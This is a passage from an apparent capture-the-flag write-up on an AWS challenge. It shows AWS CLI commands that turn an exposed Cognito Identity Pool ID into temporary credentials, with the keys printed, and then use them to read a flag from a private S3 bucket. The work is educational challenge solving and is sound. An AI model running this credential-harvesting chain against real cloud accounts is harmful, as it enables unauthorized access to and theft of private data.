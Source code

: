 
Yep, there it is -- a very helpfully placed Cognito Identity Pool ID. Let’s use it to obtain our ID:

```bash
> aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b
{
    "IdentityId": "us-east-1:157d6171-eee2-cf0f-f29f-f684025c7f2c"
}
```

And with this ID, we are able to obtain credentials to assume!

```bash
> aws cognito-identity get-credentials-for-identity --identity-id us-east-1:157d6171-eee2-cf0f-f29f-f684025c7f2c
{
    "IdentityId": "us-east-1:157d6171-eee2-cf0f-f29f-f684025c7f2c",
    "Credentials": {
        "AccessKeyId": "ASIARK7LBOHXHAHYXG4C",
        "SecretKey": "i1sxDh5obFEGzMpIw3s+nGgPfnuD3vdDjlqhMakW",
        "SessionToken": "IQoJb3JpZ2luX2VjEPz//////////<...>",
        "Expiration": 1746880294.0
    }
}
```

I can't help but enjoy this amazing loophole left for us to find. Damn, I love these challenges.

With the help of the provided credentials, we will be able to assume a role. However, we won't be able to do that in the web CLI on the challenge page -- we'll have to use our own terminal.

```bash
$ export AWS_ACCESS_KEY_ID=ASIARK7LBOHXHAHYXG4C
$ export AWS_SECRET_ACCESS_KEY=i1sxDh5obFEGzMpIw3s+nGgPfnuD3vdDjlqhMakW
$ export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEPz//////////<...>
$ aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXJKAIRDRIU:CognitoIdentityCredentials",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessUnauth_Role/CognitoIdentityCredentials"
}
$ aws s3 ls s3://wiz-privatefiles/
2023-06-05 21:42:27       4220 cognito1.png
2023-06-05 15:28:35         37 flag1.txt
$ aws s3 cp s3://wiz-privatefiles/flag1.txt - | cat
{wiz:incognito-is-always-suspicious}
```

Oh boy, I couldn’t agree more. A very fun and very interesting challenge done. Let’s finish the final one!

## Challenge 6: One final push

::: quote Task

